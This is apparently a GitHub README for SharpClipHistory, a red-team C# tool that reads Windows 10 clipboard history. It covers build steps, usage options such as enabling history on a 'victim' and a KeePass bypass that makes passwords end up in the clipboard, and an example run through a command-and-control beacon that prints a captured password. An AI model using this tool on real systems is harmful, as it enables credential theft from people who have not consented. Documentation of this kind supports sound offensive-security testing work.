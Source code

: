 # SharpClipHistory
SharpClipHistory is a .NET 4.5 application written in C# that can be used to read the contents of a user's clipboard history in Windows 10 starting from the 1809 Build.

# Build Steps
The project must be compiled on a Windows 10 host that supports the clipboard history feature (Build 1809 onwards). 
Building the project should be simple, just clone and hit Build in Visual Studio. However, if there are missing assemblies the following references will have to be added manually:
* C:\Program Files (x86)\Windows Kits\10\References\10.0.17763.0\Windows.Foundation.UniversalApiContract\7.0.0.0\Windows.Foundation.UniversalApiContract.winmd
* C:\Program Files (x86)\Windows Kits\10\References\10.0.17763.0\Windows.Foundation.FoundationContract\3.0.0.0\Windows.Foundation.FoundationContract.winmd

The UWPDesktop package must also be installed to handle other UWP dependencies. 
CommandLineParser and Costura.Fody are also required.

A pre-built executable can also be found [here](https://github.com/mwrlabs/SharpClipHistory/releases).

# Usage
```
C:\Users\User\Desktop>SharpClipHistory.exe --help
SharpClipHistory v1.0
Usage: SharpClipHistory.exe <option>
Options:
    --checkOnly
        Check if the Clipboard history feature is available and enabled on the target host.
    --enableHistory
        Edit the registry to enable clipboard history for the victim user and get contents.
    --saveImages
        Save any images in clipboard to a file in APPDATA.
    --keepassBypass
        Stops KeePass (if it is running) and modifies the config file. Next time KeePass is launched passwords will be saved in clipboard history.
```
# Example
```
beacon> execute-assembly /root/SharpClipHistory.exe
[*] Tasked beacon to run .NET program: SharpClipHistory.exe
[+] host called home, sent: 224299 bytes
[+] received output:

[+] Clipboard history feature is enabled!
[+] Clipboard history Contents:

4/25/2019 2:27:11 PM admin
4/25/2019 2:27:06 PM Sup3rS3cur3Passw0rd123!
```

# Author
This tool was developed by [@pkb1s](https://twitter.com/pkb1s).
